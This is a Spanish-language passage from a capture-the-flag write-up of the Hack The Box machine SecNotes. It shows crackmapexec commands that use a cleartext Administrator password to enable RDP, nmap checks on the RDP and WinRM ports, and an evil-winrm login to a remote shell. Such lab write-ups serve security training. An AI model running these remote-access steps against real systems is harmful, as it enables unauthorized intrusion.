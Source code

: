 ## Extra habilitar RDP y Winrm.

Con crackmapexec habilitamos el rdp y con nmap lo comprobamos.

````bash
❯ cme smb 10.10.10.97 -u 'Administrator' -p 'u6!4ZwgwOM#^OBf#Nwnh' -M rdp -o action=enable
SMB         10.10.10.97     445    SECNOTES         [*] Windows 10 Enterprise 17134 (name:SECNOTES) (domain:SECNOTES) (signing:False) (SMBv1:True)
SMB         10.10.10.97     445    SECNOTES         [+] SECNOTES\Administrator:u6!4ZwgwOM#^OBf#Nwnh (Pwn3d!)
RDP         10.10.10.97     445    SECNOTES         [+] RDP enabled successfully
`````

````bash
❯ nmap -p3389 --open -T5 10.10.10.97
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-22 22:56 CET
Nmap scan report for secnotes.htb (10.10.10.97)
Host is up (0.061s latency).

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
`````

![imagen-de-prueba](/assets/img/secnotes/Captura%20de%20pantalla%20(148).png)
_Image Secnotes_

Despues de conectarme por RDP con al tool ``remmina`` a la maquina como ``administrador`` habilito el winrm para tener acceso por ``evil-winrm``.

> El winrm se puede habiliar en Pnatillas administrativas/Componentes de windows/Administracion remota de windows (WinRM)/Servicio WinRM/

![imagen-de-prueba](/assets/img/secnotes/Captura%20de%20pantalla%20(149).png)
_Image Secnotes_

![imagen-de-prueba](/assets/img/secnotes/Captura%20de%20pantalla%20(151).png)
_Image Secnotes_

````bash
❯ nmap -p5985 --open -T5 10.10.10.97
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-22 23:12 CET
Nmap scan report for secnotes.htb (10.10.10.97)
Host is up (0.044s latency).

PORT     STATE SERVICE
5985/tcp open  wsman
`````

````bash
❯ evil-winrm -i 10.10.10.97 -u 'Administrator' -p 'u6!4ZwgwOM#^OBf#Nwnh'

Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
secnotes\administrator
`````
